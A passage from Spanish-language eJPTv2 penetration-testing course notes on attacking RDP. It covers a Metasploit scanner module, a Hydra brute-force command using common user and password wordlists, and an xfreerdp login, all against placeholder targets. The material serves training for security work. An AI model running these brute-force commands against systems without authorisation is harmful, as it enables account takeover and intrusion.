```bash
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS <IP_Target>
set RPORT <port>
run
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2066.png)

Este módulo nos confirma si está corriendo RDP en ese puerto. Ahora realizamos un ataque de fuerza bruta con Hydra:

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<IP_Target> -s <RDP_Port> 
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2067.png)

Una ver encontramos credenciales, nos autenticamos:

```bash
xfreerdp /u:<username> /p:<pass> /v:<IP_Target>:<port>
```
